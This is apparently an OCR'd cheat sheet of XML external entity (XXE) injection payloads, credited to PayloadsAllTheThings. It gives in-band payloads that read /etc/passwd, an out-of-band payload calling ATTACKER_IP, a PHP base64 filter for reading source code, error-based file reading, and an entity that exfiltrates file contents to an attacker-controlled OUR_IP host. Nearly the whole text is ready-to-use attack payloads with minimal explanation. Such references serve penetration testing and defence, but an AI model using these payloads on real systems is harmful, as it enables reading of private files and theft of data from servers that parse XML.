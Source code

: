 ## Resource: https://github.com/swisskyrepo/PayloadsAllTheThings

## XXE Injection

### In-Band XXE Injection Example payload:

      <!DOCTYPE foo [

      <!ELEMENT foo ANY >

      <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>

      <contact><name>&xxe;</name><email>test@mail.com</email><message>whatever</message></contact>

### Out-of-Band XXE Injection Example Payload:

      <!DOCTYPE foo [
      <!ELEMENT foo ANY >
      <!ENTITY xxe SYSTEM "http://ATTACKER_IP:1337/" >]>
      <upload><file>&xxe;</file></upload>


| **Code**   | **Description**   |
| --------------|-------------------|
| `<!ENTITY xxe SYSTEM "http://localhost/email.dtd">` | Define External Entity to a URL |
| `<!ENTITY xxe SYSTEM "file:///etc/passwd">` | Define External Entity to a file path |
| `<!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">` | Read PHP source code with base64 encode filter |
| `<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">` | Reading a file through a PHP error |
| `<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">` | Reading a file OOB exfiltration |
